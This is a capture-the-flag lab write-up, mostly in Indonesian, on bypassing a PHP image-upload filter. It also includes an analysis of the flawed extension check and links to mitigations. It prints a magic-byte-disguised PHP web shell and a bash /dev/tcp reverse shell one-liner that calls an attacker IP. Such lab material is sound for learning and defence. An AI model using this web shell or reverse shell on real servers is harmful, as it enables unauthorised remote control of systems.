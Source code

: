 # Day 2 |  The Elf Strikes Back

`Web Exploitation` `RCE`

---
## Learning Outcomes

- Understanding GET and POST parameters
- Bypass file upload 
- Vulnerability Analysis by me!

## Summary

1. Find a file upload point.
2. Try uploading some innocent files -- what does it accept? (Images, text files, PDFs, etc)
3. Find the directory containing your uploads.
4. Try to bypass any filters and upload a reverse shell.
5. Start a netcat listener to receive the shell
6. Navigate to the shell in your browser and receive a connection!

## Write up

Pada task kali ini, diberikan suatu ID = ODIzODI5MTNiYmYw.

ID tersebut digunakan untuk mengakses page berikut.

![216ec1cef8706fce53b9beb88299a35d.png](./_resources/43573e0df86d4193b3e3085d5cec04d9.png)

> Pengingat:
>- Metode POST request : data yang dikirim diikutkan body request (tidak tampak di URL, namun bisa di intercept)
>- Metode GET request : data yang dikirim terlihat pada URL berupa parameter
>   - Setiap nilai parameter dipisah dengan &


Caranya adalah menambahkan query (tanda tanya `?`) dengan parameter `id=value`.

http://10.10.43.11/?id=ODIzODI5MTNiYmYw

![c196cb699c437c800581393bd693bed8.png](./_resources/369e7c46d6a247a68e2c56a6520e78fc.png)

Dari sini upload file dapat dilakukan, dimana ekstensi yang diminta adalah jpeg, jpg, dan png.

![6fc7281b9f43b120870d2661a7f33cc4.png](./_resources/4e66d9a56752494a974331937c6adcc0.png)

Berikut adalah list common uploads directory  
- /uploads
- /images
- /media
- /resources

File yang di upload berada pada direktori /uploads.

Selanjutnya adalah mempersiapkan shell/backdoor web untuk di upload pada direktori tersebut.

Disini saya menggunakan webshell yang merupakaan bawaan dari Kali Linux.

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```
> *magic bytes : https://en.wikipedia.org/wiki/List_of_file_signatures*

Magicbytes digunakan untuk mengelabui/membypass uploader, meyakinkan bahwa yang diupload adalah file jpeg bukan webshell/backdoor.  

![2b1f5c137288962d3e193c0bce5093cc.png](./_resources/0aac928f2ead427d9cb1805986af8448.png)

Namun hal tersebut tidak berhasil. Tetapi ketika dibalik menjadi shell.jpg.php, webshell berhasil di upload.

![759dccab6add96541caf6777c2e0ce7a.png](./_resources/f4b4e9df972a42648980fde77011e691.png)

Sekarang Remote Code Execution (RCE) dapat dilakukan

![8a1272d07209ebe2ffba128811fb2302.png](./_resources/c93d20e6d336472db6aa54a7534f2a09.png)

Dengan adanya RCE, kita bisa mendapatkan reverse shell untuk masuk ke dalam system.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```
 Sedikit penjelasan :
- bash -i >& /dev/tcp/10.9.30.115/9000   
" Berikan interactive shell dari bash melalui TCP ke 10.9.30.115 di port 9000 "
- 0>&1  
" Redirect stdin (input) ke stdout (ouput) ", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```

![8525accc17e0b613db09cbaca471ce8e.png](./_resources/c6f980247a834023bb9cb5fd3b73424c.png)

Flag ditemukan pada /var/www/flag.txt

```
find / -type f 2>/dev/null | grep flag
```

![a6306e4a9eeaddec28e4128fd6c846b6.png](./_resources/63d77db614f4487590f9840055323679.png)


## Vulnerability Analysis & Mitigation

### Bypass upload filter 

/var/www/html/upload.php
```
<?php
        try{
                $data = json_decode(file_get_contents("php://input"), true);
        } catch (Exception $e) {
                die(json_encode(["res"=>"Error", "msg"=>"Invalid JSON"]));
        }

        if(!isset($data["mime"]) || !isset($data["name"]) || !isset($data["body"]) || !isset($data["id"])){
                die(json_encode(["res"=>"Error", "msg"=>"Invalid parameters"]));
        }


        $ids = explode("\n", file_get_contents("id-list"));
        if(!in_array($data["id"], $ids)){
                die(json_encode(["res"=>"Error", "msg"=>"Not authenticated"]));
        }


        $dir = "uploads/";
        $target = $dir . $data["name"];

        try{
                $image = base64_decode(explode(",", $data["body"])[1]);
        } catch (Exception $e){
                die(json_encode(["res"=>"Error","msg"=>"Invalid image format"]));
        }

        $ext  = trim(explode(".", $data["name"])[1], "\n");
        if(!$ext){
                die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
        } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
                die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
        }

        $outfile = fopen($target, "w");
        fwrite($outfile, $image);
        fclose($outfile);

        echo json_encode(["res" => "Success", "msg" => "File received successfully!"]);

?>
```

Baris code berikut yang membuat shell yang di upload lolos.

````
$ext  = trim(explode(".", $data["name"])[1], "\n");
    if(!$ext){
        die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
    } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
        die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
    }

````

Berikut adalah contoh data yang dikirim ketika melakukan file upload

![data.png](./_resources/data.png)

data = {"name":"shell.php", "id":"ODIzODI5MTNiYmYw", ...etc}

Sesampainya pada baris ini

```
$ext  = trim(explode(".", $data["name"])[1], "\n"); 
```
Nama shell.php dipecah/explode dengan titik sebagai pemisahnya menjadi

- shell <-- $data["name"][0] 
- php   <-- $data["name"][1] - diambil dan tidak lolos filter

Maka ketika filename diberi nama shell.jpg.php

- shell <-- $data["name"][0]
- jpg   <-- $data["name"][1] - diambil dan lolos filter
- php   <-- $data["name"][2] - tidak dianggap!

Berikut hasilnya 

![vuln.png](./_resources/vuln.png)

Contoh mitigasi 

https://stackoverflow.com/questions/14789206/if-statement-to-filter-file-extensions

### Remote Code Execution

Berikut adalah cara memitigasi agar file2 php pada direktori tertentu tidak dapat di eksekusi 

https://lxadm.com/Apache:_disabling_PHP_execution_in_selected_directories
http://docs.php.net/manual/en/apache.configuration.php#ini.engine